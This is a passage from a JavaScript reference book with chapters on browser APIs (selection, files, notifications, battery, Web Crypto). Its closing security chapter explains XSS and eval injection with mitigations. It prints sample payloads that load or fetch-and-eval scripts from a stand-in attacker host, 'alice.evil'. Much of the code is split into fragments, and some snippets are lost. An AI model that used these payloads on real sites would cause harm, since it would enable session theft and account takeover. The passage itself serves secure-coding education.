## Section 88.1: Get the text of the selection

**let**

sel

=

document.

getSelection

(

)

;

**let**

text

=

sel.

toString

(

)

;

console.

log

(

text

)

;

*// logs what the user selected*

Alternatively, since the toString member function is called
automatically by some functions when converting the object to a
string, you don\'t always have to call it yourself.

console.

log

(

document.

getSelection

(

)

)

;

## Section 88.2: Deselect everything that is selected

**let**

sel

=

document.

getSelection

(

)

;

sel.

removeAllRanges

(

)

;

## Section 88.3: Select the contents of an element

**let**

sel

=

document.

getSelection

(

)

;

**let**

myNode

=

document.

getElementById

(

\'element-to-select\'

)

;

**let**

range

=

document.

createRange

(

)

;

range.

selectNodeContents

(

myNode

)

;

sel.

addRange

(

range

)

;

It may be necessary to first remove all the ranges of the previous
selection, as most browsers don\'t support multiple ranges.

# Chapter 89: File API, Blobs and FileReaders

  
  **Property/Method**         **Description**
   
  error                       A error that occurred while reading the
                              file.

  readyState                  Contains the current state of the
                              FileReader.

  result                      Contains the file contents.

  onabort                     Triggered when the operation is aborted.

  onerror                     Triggered when an error is encountered.

  onload                      Triggered when the file has loaded.

  onloadstart                 Triggered when the file loading operation
                              has started.

  onloadend                   Triggered when the file loading operation
                              has ended.

  onprogress                  Triggered whilst reading a Blob.
  

  
  abort
  

  

() Aborts the current operation.

  
  readAsArrayBuffer                                      (   blob
    

  

) Starts reading the file as an ArrayBuffer.

  
  readAsDataURL                                       (   blob
  -  

  

) Starts reading the file as a data url/uri.

  
  readAsText                  (   blob       \[,   encoding
    - - -

  

Starts reading the file as a text file. Not able to read binary files.
Use
>
\])
>
readAsArrayBuffer instead.

## Section 89.1: Read file as string

Make sure to have a file input on your page:

**\<**

**input**

type

=

\"file\"

id

=

\"upload\"

**\>**

Then in JavaScript:

document.

getElementById

(

\'upload\'

)

.

addEventListener

(

\'change\'

,

readFileAsString

)

**function**

readFileAsString

(

)

{

**var**

files

=

**this**

.

files

;

**if**

(

files.

length

===

0

)

{

console.

log

(

\'No file is selected\'

)

;

**return**

;

}

**var**

reader

=

**new**

FileReader

(

)

;

reader.

onload

=

**function**

(

event

)

{

console.

log

(

\'File content:\'

,

event.

target

.

result

)

;

}

;

reader.

readAsText

(

files

\[

0

\]

)

;

}

## Section 89.2: Read file as dataURL

  
  type                      =      \"file\"
    

  

Reading the contents of a file within a web application can be
accomplished by utilizing the HTML5 File API. First, add an input with
in your HTML:

**\<**

**input**

type

=

\"file\"

id

=

\"upload\"

**\>**

Next, we\'re going to add a change listener on the file-input. This
examples defines the listener via JavaScript, but it could also be
added as attribute on the input element. This listener gets triggered
every time a new file has been selected. Within this callback, we can
read the file that was selected and perform further actions (like
creating an image with the contents of the selected file):

document.

getElementById

(

\'upload\'

)

.

addEventListener

(

\'change\'

,

showImage

)

;

**function**

showImage

(

evt

)

{

**var**

files

=

evt.

target

.

files

;

**if**

(

files.

length

===

0

)

{

console.

log

(

\'No files selected\'

)

;

**return**

;

}

**var**

reader

=

**new**

FileReader

(

)

;

reader.

onload

=

**function**

(

event

)

{

**var**

img

=

**new**

Image

(

)

;

img.

onload

=

**function**

(

)

{

document.

body

.

appendChild

(

img

)

;

}

;

img.

src

=

event.

target

.

result

;

}

;

reader.

readAsDataURL

(

files

\[

0

\]

)

;

}

## Section 89.3: Slice a file

  
  blob.slice
  

  

The () method is used to create a new Blob object containing the data
in the specified range of bytes of the source Blob. This method is
usable with File instances too, since File extends Blob.
>
Here we slice a file in a specific amount of blobs. This is useful
especially in cases where you need to process files that are too large
to read in memory all in once. We can then read the chunks one by one
using FileReader.

*/\*\**

*\* \@param {File\|Blob} - file to slice*

*\* \@param {Number} - chunksAmount*

*\* \@return {Array} - an array of Blobs*

*\*\*/*

**function**

sliceFile

(

file

,

chunksAmount

)

{

**var**

byteIndex

=

0

;

**var**

chunks

=

\[

\]

;

**for**

(

**var**

i

=

0

;

i

\<

chunksAmount

;

i

+=

1

)

{

**var**

byteEnd

=

Math

.

ceil

(

(

file.

size

/

chunksAmount

)

\*

(

i

\+

1

)

)

;

chunks.

push

(

file.

slice

(

byteIndex

,

byteEnd

)

)

;

byteIndex

+=

(

byteEnd

\-

byteIndex

)

;

}

**return**

chunks

;

}

## Section 89.4: Get the properties of the file

If you want to get the properties of the file (like the name or the
size) you can do it before using the File Reader. If we have the
following html piece of code:

**\<**

**input**

type

=

\"file\"

id

=

\"newFile\"

**\>**

You can access the properties directly like this:

document.

getElementById

(

\'newFile\'

)

.

addEventListener

(

\'change\'

,

getFile

)

;

**function**

getFile

(

event

)

{

**var**

files

=

event.

target

.

files

,

file

=

files

\[

0

\]

;

console.

log

(

\'Name of the file\'

,

file.

name

)

;

console.

log

(

\'Size of the file\'

,

file.

size

)

;

}

You can also get easily the following attributes: lastModified
(Timestamp), lastModifiedDate (Date), and type (File

Type)

## Section 89.5: Selecting multiple files and restricting file types

The HTML5 file API allows you to restrict which kind of files are
accepted by simply setting the accept attribute on a file input, e.g.:

**\<**

**input**

type

=

\"file\"

accept

=

\"image/jpeg\"

**\>**

  
  image             /   jpeg           ,   image             /   png
        -

  

Specifying multiple MIME types separated by a comma (e.g. ) or using
wildcards (e.g.

  
  image*/\**
  

  

for allowing all types of images) give you a quick and powerful way to
restrict the type of files you want to select. Here\'s an example for
allowing any image or video:

**\<**

**input**

type

=

\"file\"

accept

=

\"image/\*,video\*\"

**\>**

By default, the file input lets the user select a single file. If you
want to enable multiple file selection, simply add the multiple
attribute:

**\<**

**input**

type

=

\"file\"

multiple

**\>**

You can then read all the selected files via the file input\'s files
array. See read file as dataUrl

## Section 89.6: Client side csv download using Blob

**function**

downloadCsv

(

)

{

**var**

blob

=

**new**

Blob

(

\[

csvString

\]

)

;

**if**

(

window.

navigator

.

msSaveOrOpenBlob

)

{

window.

navigator

.

msSaveBlob

(

blob

,

\"filename.csv\"

)

;

}

**else**

{

**var**

a

=

window.

document

.

createElement

(

\"a\"

)

;

a\.

href

=

window.

URL

.

createObjectURL

(

blob

,

{

type

:

\"text/plain\"

}

)

;

a\.

download

=

\"filename.csv\"

;

document.

body

.

appendChild

(

a

)

;

a\.

click

(

)

;

document.

body

.

removeChild

(

a

)

;

}

}

**var**

string

=

\"a1,a2,a3\"

;

downloadCSV

(

string

)

;

Source reference ; <https://github.com/mholt/PapaParse/issues/175>

# Chapter 90: Notifications API

## Section 90.1: Requesting Permission to send notifications

  
  Notification.requestPermission
  

  

We use to ask the user if he/she wants to receive notifications from
our website.

Notification.

requestPermission

(

**function**

(

)

{

**if**

(

Notification.

permission

===

\'granted\'

)

{

*// user approved.*

*// use of new Notification(\...) syntax will now be successful*

}

**else**

**if**

(

Notification.

permission

===

\'denied\'

)

{

*// user denied.*

}

**else**

{

*// Notification.permission === \'default\'*

*// user didn*

'

*t make a decision.*

*// You can*

'

*t send notifications until they grant permission.*

}

}

)

;

  
  .requestPermission
  

  

Since Firefox 47 The method can also return a promise when handling
the user\'s decision for granting permission

Notification.

requestPermission

(

)

.

then

(

**function**

(

permission

)

{

**if**

(

!

(

\'permission\'

**in**

Notification

)

)

{

Notification.

permission

=

permission

;

}

*// you got permission !*

}

,

**function**

(

rejection

)

{

*// handle rejection here.*

}

)

;

## Section 90.2: Sending Notifications

After the user has approved a request for permission to send
notifications, we can send a simple notification that says Hello to
the user: **new** Notification(\'Hello\', { body: \'Hello, world!\',
icon: \'url to an .ico image\' });
>
This will send a notification like this:
>
**Hello**
>
Hello, world!

## Section 90.3: Closing a notification

  
  .close()
  

  

You can close a notification by using the method.

**let**

notification

=

**new**

Notification

(

title

,

options

)

;

*// do some work, then close the notification*

notification.

close

(

)

You can utilize the setTimeout function to auto-close the notification
sometime in the future.

**let**

notification

=

**new**

Notification

(

title

,

options

)

;

setTimeout

(

(

)

=\>

{

notification.

close

(

)

}

,

4000

)

;

The above code will spawn a notification and close it after 4 seconds.

## Section 90.4: Notification events

The Notification API specifications support 2 events that can be fired
by a Notification.

1.  The click event.

This event will run when you click on the notification body (excluding
the closing X and the Notifications configuration button).
>
Example:

notification.

onclick

=

**function**

(

event

)

{

console.

debug

(

\"you click me and this is my event object: \"

,

event

)

;

}

2.  The error event

The notification will fire this event whenever something wrong will
happen, like being unable to display

notification.

onerror

=

**function**

(

event

)

{

console.

debug

(

\"There was an error: \"

,

event

)

;

}

# Chapter 91: Vibration API

Modern mobile devices include hardware for vibrations. The Vibration
API offers Web apps the ability to access this hardware, if it exists,
and does nothing if the device doesn\'t support it.

## Section 91.1: Single vibration

Vibrate the device for 100ms:

window.

navigator

.

vibrate

(

100

)

;

or

window.

navigator

.

vibrate

(

\[

100

\]

)

;

## Section 91.2: Check for support

Check if browser supports vibrations

**if**

(

\'vibrate\'

**in**

window.

navigator

)

*// browser has support for vibrations*

**else**

*// no support*

## Section 91.3: Vibration patterns

An array of values describes periods of time in which the device is
vibrating and not vibrating.

window.

navigator

.

vibrate

(

\[

200

,

100

,

200

\]

)

;

# Chapter 92: Battery Status API

## Section 92.1: Battery Events

*// Get the battery API*

navigator.

getBattery

(

)

.

then

(

**function**

(

battery

)

{

battery.

addEventListener

(

\'chargingchange\'

,

**function**

(

)

{

console.

log

(

\'New charging state: \'

,

battery.

charging

)

;

}

)

;

battery.

addEventListener

(

\'levelchange\'

,

**function**

(

)

{

console.

log

(

\'New battery level: \'

,

battery.

level

\*

100

\+

\"%\"

)

;

}

)

;

battery.

addEventListener

(

\'chargingtimechange\'

,

**function**

(

)

{

console.

log

(

\'New time left until full: \'

,

battery.

chargingTime

,

\" seconds\"

)

;

}

)

;

battery.

addEventListener

(

\'dischargingtimechange\'

,

**function**

(

)

{

console.

log

(

\'New time left until empty: \'

,

battery.

dischargingTime

,

\" seconds\"

)

;

}

)

;

}

)

;

## Section 92.2: Getting current battery level

*// Get the battery API*

navigator.

getBattery

(

)

.

then

(

**function**

(

battery

)

{

*// Battery level is between 0 and 1, so we multiply it by 100 to get in
percents*

console.

log

(

\"Battery level: \"

\+

battery.

level

\*

100

\+

\"%\"

)

;

}

)

;

## Section 92.3: Is battery charging?

*// Get the battery API*

navigator.

getBattery

(

)

.

then

(

**function**

(

battery

)

{

**if**

(

battery.

charging

)

{

console.

log

(

\"Battery is charging\"

)

;

}

**else**

{

console.

log

(

\"Battery is discharging\"

)

;

}

}

)

;

## Section 92.4: Get time left until battery is empty

*// Get the battery API*

navigator.

getBattery

(

)

.

then

(

**function**

(

battery

)

{

console.

log

(

\"Battery will drain in \"

,

battery.

dischargingTime

,

\" seconds\"

)

;

}

)

;

## Section 92.5: Get time left until battery is fully charged

*// Get the battery API*

navigator.

getBattery

(

)

.

then

(

**function**

(

battery

)

{

console.

log

(

\"Battery will get fully charged in \"

,

battery.

chargingTime

,

\" seconds\"

)

;

}

)

;

# Chapter 93: Fluent API

JavaScript is great for designing fluent API - a consumer-oriented API
with focus on developer experience. Combine with language dynamic
features for optimal results.

## Section 93.1: Fluent API capturing construction of HTML articles with JS

{width="7.486805555555556in"
height="8.873611111111112in"}

{width="7.486805555555556in"
height="5.711805555555555in"}

This allows the consumer of the API to have a nice-looking article
construction, almost a DSL for this purpose, using plain JS:

Version ≥ 6 **const** articles = \[

Article.withTopic(\'Artificial Intelligence - Overview\')
>
.section(\'What is Artificial Intelligence?\')
>
.addParagraph(\'Something something\')
>
.addParagraph(\'Lorem ipsum\')
>
.withEmphasis()
>
.section(\'Philosophy of AI\')
>
.addParagraph(\'Something about AI philosophy\')
>
.addParagraph(\'Conclusion\'),
>
Article.withTopic(\'JavaScript\')
>
.list(\'JavaScript is one of the 3 languages all web developers must
learn:\')
>
.addListItem(\'HTML to define the content of web pages\')
>
.addListItem(\'CSS to specify the layout of web pages\')
>
.addListItem(\' JavaScript to program the behavior of web pages\')
>
\]; document.getElementById(\'content\').innerHTML = articles.map(a
=\a.toHtml()).join(\'**\\n**\');

# Chapter 94: Web Cryptography API

## Section 94.1: Creating digests (e.g. SHA-256)

*// Convert string to ArrayBuffer. This step is only necessary if you
wish to hash a string, not if*

*you already got an ArrayBuffer such as an Uint8Array.*

**var**

input

=

**new**

TextEncoder

(

\'utf-8\'

)

.

encode

(

\'Hello world!\'

)

;

*// Calculate the SHA-256 digest*

crypto.

subtle

.

digest

(

\'SHA-256\'

,

input

)

*// Wait for completion*

.

then

(

**function**

(

digest

)

{

*// digest is an ArrayBuffer. There are multiple ways to proceed.*

*// If you want to display the digest as a hexadecimal string, this will
work:*

**var**

view

=

**new**

DataView

(

digest

)

;

**var**

hexstr

=

\'\'

;

**for**

(

**var**

i

=

0

;

i

\<

view.

byteLength

;

i

++

)

{

**var**

b

=

view.

getUint8

(

i

)

;

hexstr

+=

\'0123456789abcdef\'

\[

(

b

&

0xf0

)

\>\>

4

\]

;

hexstr

+=

\'0123456789abcdef\'

\[

(

b

&

0x0f

)

\]

;

}

console.

log

(

hexstr

)

;

*// Otherwise, you can simply create an Uint8Array from the buffer:*

**var**

digestAsArray

=

**new**

Uint8Array

(

digest

)

;

console.

log

(

digestAsArray

)

;

}

)

*// Catch errors*

.

**catch**

(

**function**

(

err

)

{

console.

error

(

err

)

;

}

)

;

  
  SHA-1       ,   SHA-256         ,   SHA-384         and       SHA-512
        

  

The current draft suggests to provide at least , but this is no strict
requirement and subject to change. However, the SHA family can still
be considered a good choice as it will likely be supported in all
major browsers.

## Section 94.2: Cryptographically random data

*// Create an array with a fixed size and type.*

**var**

array

=

**new**

Uint8Array

(

5

)

;

*// Generate cryptographically random values*

crypto.

getRandomValues

(

array

)

;

*// Print the array to the console*

console.

log

(

array

)

;

  
  [crypto.getRandomValues(array)](https://developer.mozilla.org/en-US/docs/Web/API/RandomSource/getRandomValues)
  

  

can be used with instances of the following classes (described further
in Binary Data) and will generate values from the given ranges (both
ends inclusive):
>
Int8Array: -27 to 27-1
>
Uint8Array: 0 to 28-1
>
Int16Array: -215 to 215-1 Uint16Array: 0 to 216-1
>
Int32Array: -231 to 231-1
>
Uint32Array: 0 to 231-1

## Section 94.3: Generating RSA key pair and converting to PEM format

In this example you will learn how to generate RSA-OAEP key pair and
how to convert private key from this key pair to base64 so you can use
it with OpenSSL etc. Please note that this process can also be used
for public key you just have to use prefix and suffix below:

\-\-\-\

BEGIN PUBLIC KEY

\-\-\-\

\-\-\-\

END PUBLIC KEY

\-\-\-\

NOTE: This example is fully tested in these browsers: Chrome, Firefox,
Opera, Vivaldi

{width="7.486805555555556in"
height="8.324305555555556in"}

console.

log

(

pem

)

;

}

)

.

**catch**

(

**function**

(

err

)

{

console.

log

(

err

)

;

}

)

;

}

)

;

That\'s it! Now you have a fully working and compatible RSA-OAEP
Private Key in PEM format which you can use wherever you want. Enjoy!

## Section 94.4: Converting PEM key pair to CryptoKey

So, have you ever wondered how to use your PEM RSA key pair that was
generated by OpenSSL in Web Cryptography API? If the answers is yes.
Great! You are going to find out.
>
NOTE: This process can also be used for public key, you only need to
change prefix and suffix to:

\-\-\-\

BEGIN PUBLIC KEY

\-\-\-\

\-\-\-\

END PUBLIC KEY

\-\-\-\

This example assumes that you have your RSA key pair generated in PEM.

{width="7.486805555555556in"
height="6.270138888888889in"}

And now you\'re done! You can use your imported key in WebCrypto API.

# Chapter 95: Security issues

This is a collection of common JavaScript security issues, like XSS
and eval injection. This collection also contains how to mitigate
these security issues.

## Section 95.1: Reflected Cross-site scripting (XSS)

Let\'s say Joe owns a website that allows you to log on, view puppy
videos, and save them to your account.

  
  https    :   *//example.com/search?q=brown+puppies*
    

  

Whenever a user searches on that website, they are redirected to .
>
If a user\'s search doesn\'t match anything, than they see a message
along the lines of:

Your search (**brown puppies**), didn\'t match anything. Try again.

On the backend, that message is displayed like this:

**if**

(

!

searchResults

)

{

webPage

+=

\"\<div\>Your search (\<b\>\"

\+

searchQuery

\+

\"\</b\>), didn\'t match anything. Try again.\"

;

}

  -
  **\<h1**      **\>**   headings**\</h1**
  -  -

  -

However, when Alice searches for **\>**, she gets this back:
>
Your search (**headings**
>
) didn\'t match anything. Try again.
>
Raw HTML:
>
Your search (\<b\>\<h1\>headings\</h1\>\</b\>) didn\'t match anything.
Try again.

  
  **\<script**         **\>**   alert(1)**\</script**
    

  

Than Alice searches for **\>**, she sees:

Your search (), didn\'t match anything. Try again.

And:

{width="4.585416666666666in"
height="1.4868055555555555in"}

  
  **\<script** src = \"https://alice.evil/puppy_xss.js\>\</script\>really
  cute puppies
  

  

Than Alice searches for , and copies the link in her address bar, and
then emails Bob:

Bob,

When I search for [cute
puppies](https://example.com/search?q=%3Cscript+src+=+%22https://alice.evil/puppy_xss.js%3E%3C/script%3Ereally+cute+puppies),
nothing happens!

Than Alice successfully gets Bob to run her script while Bob is logged
on to his account.
>
**Mitigation:**

1.  Escape all angle brackets in searches before returning the search
    term when no results are found.

2.  Don\'t return the search term when no results are found.

3.  **Add a [Content Security
    Policy](https://stackoverflow.com/q/30280370/6560716) that refuses
    to load active content from other domains**

## Section 95.2: Persistent Cross-site scripting (XSS)

Let\'s say that Bob owns a social website that allows users to
personalize their profiles.
>
Alice goes to Bob\'s website, creates an account, and goes to her
profile settings. She sets her profile description to I\'m actually
too lazy to write something here.
>
When her friends view her profile, this code gets run on the server:

**if**

(

viewedPerson.

profile

.

description

)

{

page

+=

\"\<div\>\"

\+

viewedPerson.

profile

.

description

\+

\"\</div\>\"

;

}

**else**

{

page

+=

\"\<div\>This person doesn\'t have a profile description.\</div\>\"

;

}

Resulting in this HTML:

**\<**

**div**

**\>**

I\'m actually too lazy to write something here.

**\<**

**/div**

**\>**

  
  **\<b**   **\>**   I like HTML**\</b>**
    

  

Than Alice sets her profile description to **\>**. When she visits her
profile, instead of seeing

\<b\>I like HTML\</b\>

she sees

**I like HTML**

Then Alice sets her profile to

**\<**

**script**

src =

\"https://alice.evil/profile_xss.js\"

**\>**

**\<**

**/script**

**\>**

I

\'m actually too lazy to write something

here.

Whenever someone visits her profile, they get Alice\'s script run on
Bob\'s website while logged on as their account.
>
**Mitigation**

1.  Escape angle brackets in profile descriptions, etc.

2.  Store profile descriptions in a plain text file that is then fetched
    with a script that adds the description via

.innerText

3.  **Add a [Content Security
    Policy](https://stackoverflow.com/q/30280370/6560716) that refuses
    to load active content from other domains**

## Section 95.3: Persistent Cross-site scripting from JavaScript string literals

Let\'s say that Bob owns a site that lets you post public messages.
>
The messages are loaded by a script that looks like this:

addMessage

(

\"Message 1\"

)

;

addMessage

(

\"Message 2\"

)

;

addMessage

(

\"Message 3\"

)

;

addMessage

(

\"Message 4\"

)

;

addMessage

(

\"Message 5\"

)

;

addMessage

(

\"Message 6\"

)

;

The addMessage function adds a posted message to the DOM. However, in
an effort to avoid XSS, **any HTML in messages posted is escaped.**
>
The script is generated **on the server** like this:

**for**

(

**var**

i

=

0

;

i

\<

messages.

length

;

i

++

)

{

script

+=

\"addMessage(

**\\\"**

\"

\+

messages

\[

i

\]

\+

\"

**\\\"**

)

;\"

;

}

  
  My mom said     :   \"Life is good. Pie makes it better. \"
    -

  

So alice posts a message that says: . Than when she previews the
message, instead of seeing her message she sees an error in the
console:

Uncaught SyntaxError

:

missing

)

after argument list

Why? Because the generated script looks like this:

addMessage

(

\"My mom said: \"

Life is good.

Pie

makes it better.

\"\"

)

;

That\'s a syntax error. Than Alice posts:

I like pie
\");fetch(\"https:*//alice.evil/js_xss.js\").then(x=\>x.text()).then(eval);//*
Then the generated script looks like: addMessage(\"I like pie
\");fetch(\"https://alice.evil/js_xss.js\").then(x=\>x.text()).then(eval);*//\");*

  -
  **https**    **:**   ***//alice.evil/js_xss.js***
   - 

  -

That adds the message I like pie, but it also **downloads and runs
whenever someone visits Bob\'s site.**
>
**Mitigation:**

1.  Pass the message posted into JSON.stringify()

2.  Instead of dynamically building a script, build a plain text file
    containing all the messages that is later fetched by the script

3.  **Add a [Content Security
    Policy](https://stackoverflow.com/q/30280370/6560716) that refuses
    to load active content from other domains**

## Section 95.4: Why scripts from other people can harm your website and its visitors

If you don\'t think that malicious scripts can harm your site, **you
are wrong**. Here is a list of what a malicious script could do:

1.  Remove itself from the DOM so that **it can\'t be traced**

2.  Steal users\' session cookies and **enable the script author to log
    in as and impersonate them**

3.  Show a fake \"Your session has expired. Please log in again.\"
    message that **sends the user\'s password to the script author**.

4.  Register a malicious service worker that runs a malicious script
    **on every page visit** to that website.

5.  Put up a fake paywall demanding that users **pay money** to access
    the site **that actually goes to the script author**.

Please, **don\'t think that XSS won\'t harm your website and its
visitors.**

## Section 95.5: Evaled JSON injection

Let\'s say that whenever someone visits a profile page in Bob\'s
website, the following URL is fetched:

https

:

*//example.com/api/users/1234/profiledata.json*

With a response like this:

{

\"name\"

:

\"Bob\"

,

\"description\"

:

\"Likes pie & security holes.\"

}

Than that data is parsed & inserted:
>
**var** data = eval(\"(\" + resp + \")\");
document.getElementById(\"#name\").innerText = data.name;
>
document.getElementById(\"#description\").innerText =
data.description;
>
Seems good, right? **Wrong.**

  
